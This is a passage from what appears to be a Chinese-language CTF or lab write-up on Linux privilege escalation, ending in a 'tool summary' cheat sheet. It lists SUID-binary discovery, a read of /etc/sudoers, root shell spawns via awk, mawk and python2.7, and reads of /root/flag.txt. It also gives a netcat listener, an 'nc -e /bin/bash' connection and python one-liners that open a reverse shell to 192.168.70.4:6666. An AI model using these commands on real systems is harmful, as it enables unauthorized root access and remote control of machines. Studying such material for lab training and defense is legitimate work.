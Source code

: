##### 查找SUID文件

```bash
find / -user root -perm -u=s -type f 2>/dev/null
```

指定查找设置了SetUID（设置用户ID）权限的文件。

```bash
/usr/bin/mawk
/usr/bin/python2.7
```



```bash
mawk 'BEGIN {system("/bin/sh")}'
/usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh")'
```



## 工具总结

### linux提权

```bash
#匹配设置了 setuid 权限的文件
find / -perm -u=s -type f 2>/dev/null
cat /etc/sudoers

#提权
mawk 'BEGIN {system("/bin/sh")}'

awk 'BEGIN {system("/bin/sh")}'
/usr/bin/awk 'BEGIN {system("/bin/sh")}'
awk 'BEGIN {system("whoami")}'
awk 'BEGIN {system("find / -name flag.txt")}'
awk 'BEGIN {system("cat /root/flag.txt")}'

python2.7 -c 'import pty;pty.spawn("/bin/sh")'
python2.7 -c 'import subprocess;p=subprocess.call(["/bin/sh","-i"]);'

#kali监听
nc -nclp 6666
#正向连接
##nc
nc -e /bin/bash 192.168.70.4 6666

##python2.7
###正向连接并提权
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.70.4",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'


/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.70.4",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

